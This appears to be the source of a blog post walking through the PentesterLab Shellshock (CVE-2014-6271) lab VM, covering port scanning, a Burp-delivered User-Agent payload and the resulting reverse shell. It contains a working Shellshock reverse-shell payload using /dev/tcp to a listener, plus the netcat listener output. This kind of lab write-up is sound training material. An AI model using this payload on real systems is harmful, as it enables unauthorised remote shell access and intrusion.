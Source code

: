 ```yaml
---
layout: blog_item
title:  "Pen Testers Lab: Shellshock CVE-2014-6271 - Walkthrough"
date:   2024-03-30 10:00:10
author: Dhruv Ambaliya
description: 'Shellshock CVE-2014-6271 Pen Testers Lab - Walkthrough'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This course details the exploitation of the vulnerability **CVE-2014-6271** AKA **Shellshock**. This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI".

**Author:** PentesterLab

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>This is not a challenge VM</h5>
  <p>This VM is part of the exercises provided by <a href="https://pentesterlab.com">PenTestersLab.com</a>, it's not a challenge VM (there is no flag to capture). </p>
</div>

## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.221.144

{% endhighlight %}

### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 6.0 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((Unix) DAV/2)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Website Inspection

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Shellshock Burp Suite](/img/blog/pentesterslab/shellshock/shellshock-burp.png)


## Burp Suite - Send Reverse Shellshock

Burp Suite was used to manipulate the <code>User Agent:</code> and deliver the following payload:  

{% highlight bash %}

() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

![Burp Suite Shellshock Payload](/img/blog/pentesterslab/shellshock/shellshock-payload-burp.png)

## Reverse Shell

Successfully connecting to the listening netcat instance:

{% highlight bash %}
[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...
192.168.221.144: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.144] 44254
bash: no job control in this shell
bash-4.2$ id
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)

{% endhighlight %}

End of exercise.

Thanks for the VM :)
